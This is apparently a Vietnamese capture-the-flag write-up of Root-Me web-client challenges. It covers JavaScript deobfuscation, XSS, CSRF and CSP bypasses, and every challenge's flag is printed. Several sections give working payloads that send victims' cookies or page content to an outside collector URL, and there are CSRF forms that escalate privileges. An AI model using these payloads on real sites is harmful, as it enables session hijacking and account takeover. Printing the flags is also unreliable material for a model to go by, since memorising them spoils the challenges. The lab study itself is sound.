

# 1. HTML - disabled buttons

- Đề cho 1 cái input và 1 cái button bị disabled:



- Xoá nó đi trong source là được:


- Result:


```
Flag: HTMLCantStopYou
```


# 2. Javascript - Authentication


- Mở source xem được file js này:


- Result:


```
Flag: sh.org
```


# 3. Javascript - Source


- Mở source xem được file js này:


```
Flag: 123456azerty
```


# 4. Javascript - Authentication 2


- Mở source xem được file js này:


- Thuật toán là "GOD:HIDDEN" = username:password

```
Flag: HIDDEN
```


# 5. Javascript - Obfuscation 1


- Mở source xem được file js này:


- Decode bằng kt.gy:


```
Flag: cpasbiendurpassword
```


# 6. Javascript - Obfuscation 2


- Mở source xem được file js này:


- Decode dần dần:


```
Flag: hDufjdki156
```


# 7. Javascript - Native Code

- Mở source xem được file js này:


- Decode doạn native code ta được function này:


```
Flag: toto123lol
```


# 8. Javascript - Webpack


- Đề bài cho hint là webpack nên ta dò từng file:


```
Flag: BecauseSourceMapsAreGreatForDebuggingButNotForProduction
```


# 9. Javascript - Obfuscation 3


- Mở source xem được file js này:


- Bài này lúc nào cũng alert ra chuỗi "FAUX PASSWORD HAHA" nên 
không cần để ý tới hàm kia.

- Decode chuỗi đề bài cho:


- Tiếp tục decode từ dec -> ascii, ta được flag.

```
Flag:  786OsErtk12
```


# 10. XSS - Stored 1

- Thử payload:


- Nhận thấy bị dính XSS


- Gửi cookie đến server của ta:

```
<script>document.write("</img>");</script>
```

- Result


```
Flag:  NkI9qe4cdLIO2P7MIsWS8ofD6
```


# 11. CSP Bypass - Inline Code

- Thử payload: ``


- Gửi flag qua server của ta:

```

```


- Decode là ra:


```
Flag:  CSP_34SY_T0_BYP4S_WITH_SCRIPT
```


# 12. CSRF - 0 protection

- Đầu tiên đăng kí tài khoản admin/admin thì vô phần private thì vì mình là user nên không có quyền đọc.

- Có một form update profile để tăng quyền lên admin nhưng mình không có quyền thay đổi status:


- Chèn form submit vào phần comment để gửi cho admin đọc lừa admin ấn vô submit là lên quyền:

```
<form id="asd" action="http://challeng01.root-me.org/web-client/ch22/?action=profile" method="post" enctype="multipart/form-data">                    
    <input type="text" name="username" value="admin">
    <input type="checkbox" value="on" name="status" checked>
    <button type="submit">Submit</button>
</form>
<script>document.getElementById("asd").submit()</script>
```

- Result:


```
Flag:  Csrf_Fr33style-L3v3l1!
```


# 13. XSS DOM Based - Introduction

- Thử XSS: `number = '; alert(1)//` thì bị dính:


- Gửi cookie qua server của ta:

```
http://challenge01.root-me.org/web-client/ch32/index.php?number=';document.location.href='https://1cbc05c9d3b9533c136bdb7d71fce3a0.m.pipedream.net?flag='.concat(document.cookie);//
```

- Result:


```
Flag:  rootme{XSS_D0M_BaSed_InTr0}
```


# 14. XSS DOM Based - AngularJS

- Thử XSS với: `{{$on.constructor("alert(1)")()}}` thì bị dính:


- Gửi cookie qua server của ta:

```
{{$on.constructor("location.assign(`https://1cbc05c9d3b9533c136bdb7d71fce3a0.m.pipedream.net?flag=`+document.cookie)")()}}
```


```
Flag:  rootme{@NGu1@R_J$_1$_C001}
```


# 15. XSS - Stored 2

- Intercept request và đổi status thành admin thì server trả lại `status: admin`:


- Vậy status có thể dính XSS. Thử với payload:

```
admin"><script>alert(1)</script>
```

- Ta được:


- Vậy gửi cookie qua server của ta thôi:

```
admin"><script>fetch("https://1cbc05c9d3b9533c136bdb7d71fce3a0.m.pipedream.net?flag=".concat(document.cookie))</script>
```


- Gửi cookie đó cho server là được flag: 


```
Flag:  E5HKEGyCXQVsYaehaqeJs0AfV
```


# 16. CSP Bypass - Dangling markup

- Thử điền `asd`:


- Đây là lỗi có thể thoát khỏi thẻ để chèn thẻ HTML. Tham khảo payload ở
https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection#stealing-clear-text-secrets.


- Ở đây ta sử dụng thẻ < meta>. Gửi payload qua server của ta:

```
http://challenge01.root-me.org:58029/page?user="><meta http-equiv="refresh" content='0;URL=https://1cbc05c9d3b9533c136bdb7d71fce3a0.m.pipedream.net?

```

- Result:


```
Flag:  D4NGL1NG_M4RKUP_W1TH_FIREF0X_EASY
```


# 17. CSRF - token bypass

- Bài này khi đăng nhập sẽ có trường input token mặc định bị ẩn thường token sẽ được random cho mỗi user.

- Bài này cũng giống như bài CSRF trước nhưng có thêm cần phải có token của admin.

- Đăng kí rồi đăng nhập với `asd/asd`

- Gửi cho admin cái form lấy token rồi submit cái status của tài khoản `asd` là thành công.

- Gửi vào `Comment`:

```
<form name="csrf" action="http://challenge01.root-me.org/web-client/ch23/index.php?action=profile" method="post" enctype="multipart/form-data"> 
    <input id="username" type="text" name="username" value="asd">
    <input id="status" type="checkbox" name="status" value="on" checked>
    <input id="admin-token" type="hidden" name="token" value="" /> 
</form> 
<script> 
    var request = new XMLHttpRequest(); request.open("GET", decodeURIComponent("http://challenge01.root-me.org/web-client/ch23/?action=profile"), false); 
    request.send(null); 
    var respone = request.responseText; 
    var token_group = respone.match("token\" value=\"(.*?)\""); 
    var token = token_group[1]; 
    document.getElementById("admin-token").value = token; 
    document.csrf.submit(); 
</script>
```

- Result:


```
Flag: Byp4ss_CSRF_T0k3n-w1th-XSS
```


# 18. XSS - Reflected

- Ta thử các endpoint thì thấy có vẻ `?p=` là vulnerable:


- Thử với payload: `asd' onmouseover='alert(1)` và di chuột lên thì bị dính:


- Gửi cookie qua server thôi:

```
http://challenge01.root-me.org/web-client/ch26/?p=ád%27%20onmouseover=%27document.location=%22https://1cbc05c9d3b9533c136bdb7d71fce3a0.m.pipedream.net?%22.concat(document.cookie)
```


- Result:


```
Flag: r3fL3ct3D_XsS_fTw
```


# 19. CSP Bypass - Dangling markup 2

- Đây là một lỗi mà mình có thể thoát ra khỏi value và chèn đoạn HTML nguy hiểm.

- Ở đây có thể dùng \<table\> để tạo request.


- Tham khảo nội dung ở
https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection  

- Ta thử với payload:

```
challenge01.root-me.org:58030/page?user="><table/background='https://1cbc05c9d3b9533c136bdb7d71fce3a0.m.pipedream.net?
```
- Nhận được kết quả:


- Sau đó ta report là được:


```
Flag:   D4NGL1NG_M4RKUP_W1TH_CHR0ME_NO_N3W_LINE
```


# 20. XSS DOM Based - Eval

- Có vẻ server filter gần hết các kí tự có thể inject:


- Tuy nhiên sau khi fuzz thì ta thấy nó chấp nhận `1+1asd`:


- Tham khảo: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals.

- Template literals cho phép ta thực thi một command dưới dạng ưu tiên trước khi bị block (nếu có).

- Thử chèn payload: 1+1`${alert``}`:


- Vậy ta dùng payload này để gửi cookie:

```
1+1`${document.location="https://1cbc05c9d3b9533c136bdb7d71fce3a0.m.pipedream.net?c="+document.cookie}\`
```

- Thấy nó đã gửi được request:


- Gửi qua tab `contact`:

```
http://challenge01.root-me.org/web-client/ch34/?calculation=1%2B1`%24{document.location%3D%22https%3A%2F%2F1cbc05c9d3b9533c136bdb7d71fce3a0.m.pipedream.net?c=%22%2Bdocument.cookie}`
```

- Result:


```
Flag:   rootme{Eval_Is_DangER0us}
```


# 21. XSS DOM Based - Filters Bypass

- Mở source đọc được file js này:


- Thử `';alert()//` thì có vẻ `;` bị filter.

- Sửa lại payload: `' == alert(1) //` thì thấy bị dính XSS:


- Ta có thể sử dụng `eval` để redirect. Thử với payload dưới thì thấy bị phát hiện:

```
' == (eval)(document.location='https://1cbc05c9d3b9533c136bdb7d71fce3a0.m.pipedream.net?c='.concat(document.cookie))//
```


- Ta cần obfuscate đoạn redirect. 1 cách đơn giản là sử dụng `concat`:

```
challenge01.root-me.org/web-client/ch33/?number=' == (eval)(document.location='https'.concat('://1cbc05c9d3b9533c136bdb7d71fce3a0.m.pipedream.net?c='.concat(document.cookie)))//
```

- Nhận được kết quả:


- Gửi qua tab `contact`:


```
Flag:   rootme{FilTERS_ByPass_DOm_BASEd_XSS}
```


# 22. CSP Bypass - JSONP

- Thử payload Reflect XSS ta thấy nó không thực thi được do CSP:


- Vì đề là CSP Bypass nên ta sẽ kiểm tra Content Security Policy của trang này là gì


- Kiểm tra  trên trang CSP Evaluator ta thấy có 1 vị trí có thể khai thác


- Default - src là chỉ thị mặc định khi các chỉ thị khác bị thiếu, ở đây nó có nội dung là

```
default-src 'self' https://*.google.com https://*.googleapis.com https://*.twitter.com;
```

- Và trong list liệt kê ở trên, ta thấy trang web thiếu chỉ thị ```script-src``` => giá trị của ```script-src``` sẽ là giá trị của ```default-src```

- Ta thấy nó có thể thực thi các script từ các source có domain là  google.com  , googleapis.com,  twitter.com. Vậy ý tưởng là ta sẽ load script từ các nguồn trên vào trang web để thực thi. 

- Vì không thể thực hiện việc tạo 1 file javascript trên các domain này, ta thực hiện tìm kiếm giải pháp khác liên quan đến tiêu đề challenge - JSONP

- Truyền dữ liệu giữa các domain khác nhau sẽ gặp lỗi Cross-domain, nhưng truyền script thì không. JSONP tận dụng lợi ích của điều này để truyền dữ liệu. Cụ thể nó sẽ truyền script qua bên nhận và bên nhận tự thực thi script đó để lấy dữ liệu.

- Từ đó, ta có ý tưởng tạo jsonp để lấy script từ các domain cho phép, có nghĩa là không cần tạo file javascript trên các domain đó nhưng vẫn load script về được. (dựa trên đặc điểm của jsonp)

- Thử tìm kiếm ta thấy có một trang của google cho phép tạo jsonp theo mong muốn.


- Đặt script mong  muốn của ta vào nội dung tham số callback => Ta đã có được source script để inject

```
<script src="https://accounts.google.com/o/oauth2/revoke?callback=function myFunction(){ var a = document.getElementsByTagName('body')[0].textContent; document.location='https://webhook.site/03c97039-b00e-4820-91c6-6424602b0e7f?c='.concat(a)}; setTimeout(myFunction, 2000)"></script>
```

- Giải thích Payload: tham số callback nhận giá trị là một function, nên em định nghĩa ra một function để thực hiện đọc nội dung tag ```<body>``` của response. Sau đó gửi nội dung đó tới webhook của mình. Lưu ý ở đây là vì thẻ script nằm phía trên phần nội dung có flag, nếu script được trigger ngay lúc đó sẽ không đọc được nội dung bên dưới. Vậy nên ta phải dùng hàm setTimeout để đợi trình duyệt render hết nội dung của html rồi mới thực hiện script.

- Result:


```
Flag: CSP_4ND_JS0NP_ENDPOINT_B4D_ID3A
```

# 23. XSS - Stored - filter bypass

- Mục tiêu của challenge:  Ta phải inject một payload XSS để khi `Administrator` đọc nó thì ta sẽ thu được cookie của admin


 ​
- Kiểm tra ta thấy trang web filter các ký tự như `<script>` , `</script>` hoặc các Event kích hoạt script inline như `onerror`, `onload`, `=`, `document.location`, `document.cookie` ... Đều bị filter.

- Tuy nhiên các thẻ HTML thì lại có thể được chấp thuận
```
<a>this is a test</a>
```


- Ta cần kích hoạt được XSS inline trong các thẻ HTML này khi các sự kiện bị block. Tìm kiếm thì nhận thấy sự kiện `onfocus`, `autofocus` của thẻ `<button>` là không bị filter. Công việc còn lại là ẩn dấu script của chúng ta (các từ như `document.cookie` cần phải được mã hóa), ở đây em sử dụng `JSFUCK` và có thể bypass được

- Payload:
  - Conver script này sang dạng Jsfuck: 
      ```
      document.location='https://1cbc05c9d3b9533c136bdb7d71fce3a0.m.pipedream.net?c='.concat(document.cookie)
      ``` 

  - Paste JsFuck trên vào tham số cho payload sau:
      ```
      <button autofocus onfocus=(eval)()></button>
      ```

- Result:


```
Flag: qa26f3ugb5tqv7o0mbvtv414u8
```


# 24. Javascript - Obfuscation 4

- Chúng ta tìm được đoạn code js này:

```
var ð = "\x71\x11\x24\x59\x8d\x6d\x71\x11\x35\x16\x8c\x6d\x71\x0d\x39\x47\x1f\x36\xf1\x2f\x39\x36\x8e\x3c\x4b\x39\x35\x12\x87\x7c\xa3\x10\x74\x58\x16\xc7\x71\x56\x68\x51\x2c\x8c\x73\x45\x32\x5b\x8c\x2a\xf1\x2f\x3f\x57\x6e\x04\x3d\x16\x75\x67\x16\x4f\x6d\x1c\x6e\x40\x01\x36\x93\x59\x33\x56\x04\x3e\x7b\x3a\x70\x50\x16\x04\x3d\x18\x73\x37\xac\x24\xe1\x56\x62\x5b\x8c\x2a\xf1\x45\x7f\x86\x07\x3e\x63\x47";
 
function _(x, y) {
 return x ^ y;
}
 
function __(y) {
 var z = 0;
 for (var i = 0; i < y; i++) {
   z += Math.pow(2, i);
 }
 return z;
}
 
function ___(y) {
 var z = 0;
 for (var i = 8 - y; i < 8; i++) {
   z += Math.pow(2, i);
 }
 return z
}
 
function ____(x, y) {
 y = y % 8;
 Ï = __(y);
 Ï = (x & Ï) << (8 - y);
 return (Ï) + (x >> y);
}
 
function _____(x, y) {
 y = y % 8;
 Ï = ___(y);
 Ï = (x & Ï) >> (8 - y);
 return ((Ï) + (x << y)) & 0x00ff;
}
 
function ______(x, y) {
 return _____(x, y)
}
 
function _______(_________, key) {
 ________ = "";
 ________2 = "";
 for (var i = 0; i < _________.length; i++) {
   c = _________.charCodeAt(i);
   if (i != 0) {
     t = ________.charCodeAt(i - 1) % 2;
     switch (t) {
       case 0:
         cr = _(c, key.charCodeAt(i % key.length));
         break;
       case 1:
         cr = ______(c, key.charCodeAt(i % key.length));
         break;
     }
   } else {
     cr = _(c, key.charCodeAt(i % key.length));
   }
   ________ += String.fromCharCode(cr);
 }
 return ________;
}
 
function __________(þ) {
 var ŋ = 0;
 for (var i = 0; i < þ.length; i++) {
   ŋ += þ["charCodeAt"](i)
 }
 if (ŋ == 8932) {
   var ç = window.open("", "", "\x77\x69\x64\x74\x68\x3d\x33\x30\x30\x2c\x68\x65\x69\x67\x68\x74\x3d\x32\x20\x30");
   ç.document.write(þ)
 } else {
   alert("Mauvais mot de passe!")
 }
}
__________(_______(ð, prompt("Mot de passe?")));
```

- Hàm `__________(þ)` sẽ hiển thị cửa sổ cửa sổ thông báo.

- Decode "\x77\x69\x64\x74\x68\x3d\x33\x30\x30\x2c\x68\x65\x69\x67\x68\x74\x3d\x32\x20\x30" ta thấy nó là những tham số `width, height`.

- Hàm `_______` có vẻ là hàm mã hoá, có mudole, bitwise và XOR. Nó sẽ decode từng kí tự của ð một dựa vào key và kí tự đã decode trước đó.

- Ta có thể thử brute-force từng kí tự một:

```
var ascii = `!"#$%&'()*+,-./0123456789:<=>@ABCDEFGHIJKLMNOPQRSTUVWXY[\\^_\`abcdefghijklmnopqrstuvwxyz{|}`.split('');
var suspectedBeginningWebPage = "<html><h"
 
// brute force the password
function findNextCharPass(pass = '') {
  ascii.forEach(char => {
    const testPasswd = pass + char
    decodedStr = _______(ð, testPasswd)
  
    if (decodedStr.indexOf(suspectedBeginningWebPage.substri(0, testPasswd.length)) === 0) {
      if (decodedStr.indexOf(suspectedBeginningWebPage) === 0) {
        if (sumCharIsValid(decodedStr)) {
          printPossibleAnswer(testPasswd, decodedStr)
        }
      } else {
        findNextCharPass(testPasswd)
      }
    }
  })
}
 
// passwd: suspected password
// decodedStr: the string to validate the password
function printPossibleAnswer(passwd, decodedStr) {
  console.log("PW: " + passwd)
  console.log("Decoded: "decodedStr)
}
 
// Check if the sum of the char is 8932
function sumCharIsValid(þ) {
  var ŋ = 0;
  for (var i = 0; i < þ.length; i++) {
    ŋ += þ["charCodeAt"](i)
  }
  return ŋ == 8932
}
 
findNextCharPass()
```

- Run it and we get the flag.

```
Flag: MyP4sS
```